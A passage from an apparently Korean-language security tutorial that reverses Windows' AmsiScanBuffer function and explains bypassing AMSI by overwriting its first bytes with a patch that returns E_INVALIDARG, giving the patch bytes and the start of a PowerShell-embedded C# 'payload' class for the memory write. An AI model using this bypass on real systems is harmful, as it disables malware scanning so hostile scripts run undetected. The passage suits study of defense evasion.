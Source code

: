 즉, 특정 매개변수가 0일 경우 - 즉, 없을 경우 - **loc\_1800036B5** 로 점프합니다. 이 지점에서는 80070057h 값을 eax 에 집어넣은 뒤, 함수가 반환됩니다 (mov eax, 80070057h + ret) 함수가 반환될 때 리턴 값을 eax 에 저장하는 것은 필수는 아니지만 일반적이니 이해가 됩니다.

따라서 위 어셈블리 언어를 리버싱해 간단한 수도-코드로 바꿔보면 다음과 같이 됩니다.

```javascript
def amsiScanBuffer(p1, p2, p3, p4, p5, p6):
	if (p1 == null or p2 ==null ... or p6==null):
		debug("[-] Missing one or more parameters. Something is wrong!")
		return 80070057h
	else:
		< 매개변수가 모두 있을 시, 정상적인 amsiScanBuffer 실행! >
```

그렇다면 반환되는 80070057h 는 뭘까요?

구글링을 잠깐 해보면 (https://docs.microsoft.com/en-us/windows/win32/seccrypto/common-hresult-values) 윈도우의 HResult 값들 중 하나인 E\_INVALIDARG 가 나옵니다.

![](https://lh6.googleusercontent.com/vNIkt4tggEhFXLy4I-BvCuYrbQRqWqD6kL8Uxv7C0gW8hOtPoTfk6oEexYxilWiigGrYGsb-ZPsyDSel3HVQWDLHOR8kb6GHFweUYAfn\_tHKHjsRl3foj8FgemhnTys39NTgChJh=s0)

1개 이상의 인자가 잘못되었을 경우 반환되는 값입니다.

#### 메모리 패치

리버싱은 좋은데, 이걸로 뭘 할 수 있을까요?

Amsi.dll 라이브러리는 우리의 프로세스에 로드가 된 뒤, 우리가 실행하는 모든 메모리상의 코드를 AmsiScanBuffer 함수를 통해 검사합니다. 우리가 조종하는 프로세스에 로드된 라이브러리는 우리가 직접 메모리 패치를 통해 원하는 대로 바꿀 수 있습니다.

Amsi.dll 의 AmsiScanBuffer 함수의 가장 첫번째 어셈블리어를 패치해서, 그냥 무작정 80070057h 를 반환하게끔 하면 어떨까요? 함수가 실행하기도 전에, 그냥 냅다 80070057 를 반환하고 함수를 끝내버리는겁니다.

그렇게 되면 AmsiScanBuffer 는 우리의 파워쉘을 스캔하지도 못한채, 그냥 함수가 끝나버리게 되고, amsi 는 무슨 일이 일어났는지도 모르게 될겁니다.

함수가 냅다 80070057 를 반환하게끔 하려면 다음의 어셈블리 언어를 함수의 시작지점에 덮어씌우면 됩니다. - **0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3** -

`0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3` 는 다음과 같은 어셈블리언어로 해석됩니다.

```javascript
mov eax, 0x80070057
ret
```

위에서 봤던 어셈블리어와 똑같습니다. Eax에 80070057 값을 넣은 뒤, 바로 함수를 끝내버리는 ret 를 실행하는겁니다. 그렇게 되면 eax에 있던 80070057 값이 리턴됩니다. 이제 이 **0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3** 를 함수의 시작지점에 덮어씌워버리면 AmsiScanBuffer 함수를 우회할 수 있습니다.

\==========================================================

### 실습

실제 공격은 c# 에서 winapi 를 이용해 AmsiScanBuffer 의 메모리주소를 구하고, 메모리 권한을 읽기 + 쓰기 + 실행하기로 바꿔 메모리가 쓰여질 수 있도록 한 뒤, 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 를 해당 주소에 덮어씌우면 됩니다.

```powershell
$thing = @"
// thing 
// using System.Collections.ArrayList;
using System; // thingssa
using System.Runtime.InteropServices;
public class payload {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
```